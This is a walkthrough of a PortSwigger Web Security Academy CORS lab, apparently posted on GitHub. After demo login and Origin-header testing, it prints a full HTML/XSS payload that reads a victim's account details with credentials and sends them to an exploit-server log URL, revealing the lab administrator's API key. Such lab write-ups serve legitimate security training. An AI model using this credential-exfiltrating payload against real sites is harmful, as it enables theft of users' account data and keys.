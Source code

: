 ## Welcome, my friend. Today we will start the [3. CORS lab](https://portswigger.net/web-security/cors/lab-breaking-https-attack) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/93a66c73-1608-4702-9fe1-f9a8acbe66a4)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/de021de7-334f-473b-9d54-e1a198483708)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/ef7301e5-b6b7-45c9-a885-d88d2cf98df6)


### Now, We will use ```burp suite``` and intercept this requst:

![image](https://github.com/user-attachments/assets/3e9e083b-dc48-45d9-82d2-8ce07efab0e4)

## Try add origin header in header request such as:

```
Origin: http://mohamed.0a72003903ce516d814ec600009800d0.web-security-academy.net
```

![image](https://github.com/user-attachments/assets/8fd6fef1-9b7e-475c-92bb-7c7926e879b3)


### This website is weak with CORS vulnerability , Now go to server exploit and add this code:

```
<html>
<body>
<script>
    document.location="http://stock.0a72003903ce516d814ec600009800d0.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a72003903ce516d814ec600009800d0.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ab2000d033c511c81c9c59e01520099.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
</body>
</html>
```

### enter ```sotre``` and ```Deliver exploit to vitim``` then ```access log```:

![image](https://github.com/user-attachments/assets/75588a51-fd41-41e0-a117-279b4a09d4ce)


### api of administrator: ```QMTKzy5Ivjv4byzmXkoN6ZA8w0ToTALr```

![image](https://github.com/user-attachments/assets/3ed315c1-4dea-4cb7-a6c3-b7f8a5e5fc1c)

![image](https://github.com/user-attachments/assets/8678c5a8-08d0-4648-97ed-fdc1ffbb1d2d)



-------

### Done! Congratulations, friends❤️‍🔥

<p align="center">
<img src="https://github.com/user-attachments/assets/15a03813-a959-4628-9018-708548137ba0" >
</p>
